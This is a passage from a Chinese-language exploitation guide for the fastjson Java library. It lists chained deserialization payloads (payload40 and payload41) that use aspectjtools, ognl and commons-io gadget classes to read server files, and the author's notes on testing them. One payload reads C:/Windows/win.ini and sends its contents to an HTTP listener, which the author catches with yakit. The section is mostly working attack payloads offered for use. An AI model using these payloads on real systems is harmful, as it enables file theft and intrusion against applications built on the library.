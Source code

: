 #### 4.1.1.4 httplog回显法（另需ognl>=2.7以及commons-io>=2.0）

分两次打。

`payload40`（组合拳）：

```json
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"test"},"password":"admin"}]
```

```json
{"su14":{"@type":"java.lang.Exception","@type":"ognl.OgnlException"},"su15":{"@type":"java.lang.Class","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"ognl.OgnlException","_evaluation":""}},"su16":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"jdk.nashorn.api.scripting.URLReader","url":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"java.util.Locale","language":"http://127.0.0.1:8085/?test","country":{"@type":"java.lang.String"[{"@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"C:/Windows/win.ini"}]}}},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36]}]}}}},"su17":{"$ref":"$.su16.node.p.stream"},"su18":{"$ref":"$.su17.bOM.bytes"}}
```

我这里实际测试过程中，文件中有中文字符的时候出现了乱码：

![image-20231020223219033](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231020223219033.png)

我的解决方法是，使用`yakit`的端口监听器：

![image-20231020223341147](https://w01fh4cker-img-bed.oss-cn-hangzhou.aliyuncs.com/image-20231020223341147.png)

`yakit`真是太好用了，有木有~

### 4.1.2 aspectjtools+xalan（>=2.4.0）+dom4j（版本无限制）

#### 4.1.2.1 直接回显法

分五次打，中间报错不用管。

`payload41`（组合拳）：

```json
[{"@type":"java.lang.Exception","@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException"},{"@type":"java.lang.Class","val":{"@type":"java.lang.String"{"@type":"java.util.Locale","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"org.aspectj.org.eclipse.jdt.internal.compiler.lookup.SourceTypeCollisionException","newAnnotationProcessorUnits":[{}]}}},{"username":{"@type":"org.aspectj.org.eclipse.jdt.internal.compiler.env.ICompilationUnit","@type":"org.aspectj.org.eclipse.jdt.internal.core.BasicCompilationUnit","fileName":"test"},"password":"admin"}]
```
